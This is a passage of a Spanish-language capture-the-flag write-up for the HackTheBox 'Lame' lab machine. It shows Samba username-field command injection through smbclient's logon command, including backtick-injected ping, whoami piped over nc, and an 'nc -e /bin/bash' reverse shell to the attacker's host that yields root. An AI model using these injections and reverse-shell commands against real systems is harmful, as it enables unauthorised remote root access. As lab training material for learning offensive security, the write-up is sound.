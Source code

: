 ```java
smb: \> 
```
Una vez logueado se puede hacer una carga manual del exploit mediante el la instrucción logon y el comando nohup y con eso verificar si se puede hacer emitir una conexion a la maquina atacante, para esto ponemos en escucha las trazas icmp mediante `tcpdump`.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/Lame/content]
└─# tcpdump -i tun0 icmp -n -v
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```
Y para establecer la conexión enviamos un ping mediante logon, y verificar si es capturada mediante `tcpdump`.
```java
smb: \> logon "/=`nohup ping -c 1 10.10.16.4`"
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \> 
```
Con la respuesta obtenida se comprueba la ejecución remota de comando,
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/Lame/content]
└─# tcpdump -i tun0 icmp -n -v
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:34:07.031734 IP (tos 0x0, ttl 63, id 0, offset 0, flags [DF], proto ICMP (1), length 84)
    10.10.10.3 > 10.10.16.4: ICMP echo request, id 62743, seq 1, length 64
12:34:07.031764 IP (tos 0x0, ttl 64, id 6405, offset 0, flags [none], proto ICMP (1), length 84)
    10.10.16.4 > 10.10.10.3: ICMP echo reply, id 62743, seq 1, length 64
```
Otra manra de comprobar es enviar un comando mediante `nc`.
#### Equipo victima
```java
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \> logon "/=`nohup whoami | nc 10.10.16.4 443`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT
smb: \> 
```
En el equipo atacante ponemos una peticion nc en escucha `nc`, para recibir la ejecución de comandos.
#### Equipo atacante
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/Lame/content]
└─# nc -nlvp 443                                                
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.3] 58333
root
```
Una vez comprado la ejecución de comando podemos, crear una shell reversa utilizando `nc`.
#### Equipo victima
```java
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \> logon "/=`nohup nc -e /bin/bash 10.10.16.4 443`"
Password: 
```
#### Equipo atacante
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/Lame/content]
└─# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.3] 39143
whoami
root
```
